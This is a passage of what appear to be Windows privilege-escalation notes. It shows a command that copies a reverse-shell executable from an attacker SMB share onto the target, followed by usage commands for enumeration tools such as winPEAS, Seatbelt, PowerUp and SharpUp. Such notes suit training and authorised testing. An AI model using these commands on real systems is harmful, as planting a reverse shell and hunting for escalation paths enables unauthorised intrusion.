 #### From Windows target

```cmd
C:\Users\user> copy \\10.11.35.147\kali\reverse-shell.exe C:\PrivEsc\reverse-shell.exe
        1 file(s) copied.
```
___

## Tools

These tools provide information that can help for further investigation and privilege escalation:

- [`winPEAS`](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS)
    + To enable colors add the following registry key:

    ```cmd
    > reg add HKCU\Console /v VirtualTerminalLevel/t REG_DWORD /d 1
    ```

    + Then open a new command prompt:

    ```cmd
    > .\winPEASany.exe -h
    > .\winPEASany.exe quiet cmd fast
    > .\winPEASany.exe quiet cmd systeminfo
    ```

- [`Seatbelt`](https://github.com/GhostPack/Seatbelt) | [exe](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/blob/master/Seatbelt.exe)

    ```cmd
    > .\Seatbelt.exe all
    ```

Looking for specific misconfigurations:

- [`PowerUp`](https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1) (based on **Powershell**)

    ```powershell
    PS>. .\PowerUp.ps1    
    PS> Invoke-AllChecks
    ```

    > `AbuseFunction`(s) will be printed.

- [`SharpUp`](https://github.com/GhostPack/SharpUp) (Compiled **C#** version of `PowerUp`) | [exe](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/blob/master/SharpUp.exe)

    ```cmd
    > .\SharpUp.exe
    ```

Checking user access control rights:

- `accesschk.exe`
    + Downside: the nore recent versions spawn a GUI "accept EULA" popup window (non visible when we only have a shell).
